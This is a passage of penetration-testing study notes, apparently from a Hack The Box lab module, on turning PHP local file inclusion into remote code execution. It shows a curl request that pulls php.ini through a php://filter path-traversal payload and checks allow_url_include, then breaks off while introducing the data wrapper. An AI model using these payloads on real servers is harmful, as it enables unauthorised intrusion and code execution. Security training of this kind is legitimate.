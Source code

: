 
# LFI ⇒ **Remote Code Execution**

<aside>
💡 we will start learning how we can use file inclusion vulnerabilities to execute code on the back-end servers and gain control over them.

</aside>

## **PHP Wrappers**

### **Checking PHP Configurations**

> To do so, we can include the PHP configuration file found at (`/etc/php/X.Y/apache2/php.ini`) for Apache or at (`/etc/php/X.Y/fpm/php.ini`) for Nginx, where `X.Y` is your install PHP version. We can start with the latest PHP version, and try earlier versions if we couldn't locate the configuration file. We will also use the `base64` filter we used in the previous section, as `.ini` files are similar to `.php` files and should be encoded to avoid breaking. Finally, we'll use cURL or Burp instead of a browser, as the output string could be very long and we should be able to properly capture it:
> 
> 
> ```php
> 0xR3Y4D@htb[/htb]$ curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"
> <!DOCTYPE html>
> 
> <html lang="en">
> ...SNIP...
>  <h2>Containers</h2>
>     W1BIUF0KCjs7Ozs7Ozs7O
>     ...SNIP...
>     4KO2ZmaS5wcmVsb2FkPQo=
> <p class="read-more">
> ```
> 
> ```php
> 0xR3Y4D@htb[/htb]$ echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include
> 
> allow_url_include = On
> ```
> 
> We see that we have this option enabled, so we can use the `data` wrapper. Knowing how to check for the `allow_url_include` option can be very important, as `this option is not enabled by default`, and is required for several other LFI attacks, like using the `input` wrapper or for any RFI attack
> 

### Data → RCE [`allow_url_include = On` required]

<aside>
💡 The [data](https://www.php.net/manual/en/wrappers.data.php) wrapper can be used to include external data, including PHP code. However, the data wrapper is only available to use if the (`allow_url_include`) setting is enabled in the PHP configurations.
